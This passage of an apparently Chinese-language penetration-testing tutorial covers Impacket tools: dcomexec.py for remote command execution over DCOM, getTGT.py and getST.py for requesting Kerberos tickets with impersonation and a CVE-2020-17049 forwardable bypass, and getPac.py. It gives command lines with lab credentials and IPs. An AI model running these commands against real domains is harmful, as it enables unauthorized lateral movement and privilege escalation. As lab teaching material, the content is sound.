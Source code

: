 ```bash
dcomexec.py -object MMC20 domain/user:password@ip
```

常用选项

```bash
-share SHARE #设置连接的共享路径，默认ADMIN$
-nooutput #不获取输出，没有SMB连接
-object [{ShellWindows,ShellBrowserWindow,MMC20}] #设置RCE利用的类型
-com-version MAJOR_VERSION:MINOR_VERSION #设置DCOM版本
-shell-type {cmd,powershell} #设置返回的Shell类型
-silentcommand #不运行cmd.exe，直接运行命令
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751529158123-342e5d34-2e40-4a93-b81c-28805eafa4de.png)

### getTGT.py
通过认证后去DC请求TGT并保存。

获取administrator用户的TGT，TGT过期前可拿来获取其权限

```bash
getTGT.py domain/user:password -dc-ip DCip
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751531282326-10fe98ed-7b05-47a9-919a-92b819d2789d.png)

### getST.py
通过认证后去DC请求ST并保存。

用administrator的权限获取WIN7.test.com的cifs服务的服务票据（ST）

```bash
getST.py test/administrator:'admin@123456' -dc-ip 192.168.106.155 -spn cifs/WIN7.test.com
```

常用选项

```bash
-impersonate IMPERSONATE    #模拟为指定的用户的权限
-additional-ticket ticket.ccache    #在委派的S4U2Proxy中添加一个可转发的服务票据
-force-forwardable  #通过CVE-2020-17049强制忽略校验票据是否可转发
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751531458857-7e1cd8d6-69af-49a8-ba56-8c03b15d8a7b.png)

### getPac.py
查询test用户的PAC，可以看到登录次数、密码错误次数之类的

```bash
getPac.py test.com/administrator:password -targetUser test
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751532834314-b5ada234-05bb-49e6-8825-6835e9df2f3d.png)

注意账号前的格式变成了`test.com`，且不能指定dcip，所以`test.com`会经过dns解析,需要在`/etc/hosts`中指定`test.com`的IP为域控IP。
